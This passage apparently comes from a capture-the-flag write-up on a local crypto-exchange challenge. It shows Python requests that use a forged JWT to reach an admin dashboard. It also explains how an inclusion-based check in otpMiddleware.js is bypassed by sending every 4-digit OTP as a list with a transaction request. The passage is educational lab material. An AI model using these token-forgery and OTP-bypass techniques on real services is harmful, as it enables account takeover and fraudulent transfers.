 ```python
import requests

response = requests.get('http://127.0.0.1:1337/api/dashboard', headers={'Authorization': f'Bearer {forged_token}'})
if response.status_code == 200:
    print('JWT validated successfully!')
    print(response.json())
else:
    print('JWT validation failed.')
    print(response.text)
```

If successful, the application will treat you as the financial controller.

### Bypassing OTP Validation

The OTP (One-Time Password) validation mechanism in `otpMiddleware.js` checks if the provided OTP is included in a list of OTPs (`otpList`). This inclusion-based check can be exploited by providing a list of possible OTPs, ensuring that at least one matches the stored OTP, thereby bypassing the exact match requirement.

1. **Generate a List of Possible OTPs:**

   Create a list of all possible 4-digit OTPs.

   ```python
   otps = [str(i).zfill(4) for i in range(1000, 10000)]
   ```

2. **Send OTPs with Transaction Requests:**

   When making a transaction, include the list of OTPs to satisfy the inclusion check.

   ```python
   transaction_payload = {
       'to': 'dummy@htb.com',
       'coin': 'CLCR',
       'amount': 1000,
       'otp': otps
   }

   response = requests.post('http://127.0.0.1:1337/api/crypto/transaction', json=transaction_payload, headers={'Authorization': f'Bearer {forged_token}'})

   if response.status_code == 200:
       print('Transaction successful!')
   else:
       print('Transaction failed.')
       print(response.text)
   ```

   This approach bypasses the OTP validation by ensuring that at least one OTP in the list matches the stored OTP.

### Automating the Exploit

